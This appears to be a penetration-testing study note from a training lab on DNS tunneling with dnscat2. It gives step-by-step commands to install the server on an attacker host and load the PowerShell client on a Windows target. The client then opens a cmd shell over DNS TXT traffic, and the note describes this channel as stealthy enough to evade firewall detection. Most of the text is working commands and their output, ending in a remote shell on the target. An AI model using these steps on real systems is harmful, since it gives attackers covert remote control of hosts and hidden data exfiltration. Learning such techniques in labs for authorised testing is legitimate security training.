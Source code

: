 ```yaml
---
title: DNS Tunneling - Dnscat2
draft: false
tags:
  - dnscat2
---
```

**Dnscat2** - Tool that uses DNS protocol to send data between two hosts. 

Sends data inside TXT records within the DNS protocol.

Dnscat2 can be extremely stealthy while evading firewall detection. 

## Installation

To download server:

```shell-session
[!bash!]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

To download client:

```shell-session
[!bash!]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

## Dnscat2 - Server

Let's start dnscat2 server on our attacker host:

```shell-session
[!bash!]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

Secret Key is provided which we have to use on dnscat2 client on Windows target host. 

On target Windows host, we either need dnscat2 project client or [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell).

## Dnscat2 - Client

After downloading the client (dnscat2.ps1), we transfer it to the target windows host. 

Now that we have dnscat.ps1 on the target, let's import it:

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

Let's establish a tunnel with the server running on attacker host:s

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```


## Sessions Established

If all steps are completed successfully, we will have a session established on attacker server:

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

There are many options:

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

## Session Interaction

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```


